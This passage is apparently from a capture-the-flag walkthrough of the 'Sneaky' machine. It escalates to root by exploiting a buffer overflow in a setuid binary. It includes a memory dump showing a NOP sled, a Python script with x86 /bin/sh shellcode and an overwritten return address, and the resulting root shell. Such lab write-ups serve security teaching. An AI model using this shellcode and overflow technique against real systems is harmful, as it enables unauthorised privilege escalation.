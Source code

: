 ```text
0xbffff70c:     0x00363836      0x00000000      0x00000000      0x00000000
0xbffff71c:     0x73752f00      0x6f6c2f72      0x2f6c6163      0x2f6e6962
0xbffff72c:     0x6c616863      0x90909000      0x90909090      0x90909090
0xbffff73c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff74c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff75c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff76c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff77c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff78c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff79c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7bc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7cc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7dc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7ec:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff80c:     0x90909090      0x90909090      0x90909090      0x90909090
```

This time we pick another address near our NOP_SLED which we can see above represented by 0x90909090, in this case we pick 0xbffff74c.

Update our script for the last time:

```text
thrasivoulos@Sneaky:~$ nano exploit.py
buffsize = 362
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nopsled = "\x90"*(buffsize-len(shellcode))
eip = "\x4c\xf7\xff\xbf" # change this to new addres
payload = nopsled + shellcode + eip
print payload
```

### Root Flag

Now run the binary using our script as the parameter:

```text
thrasivoulos@Sneaky:~$ chal $(python exploit.py)
```

Now we are in a new shell as root:

```text
# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
```

Time to get the last flag:

```text
# cat /root/root.txt
<<HIDDEN>>
```

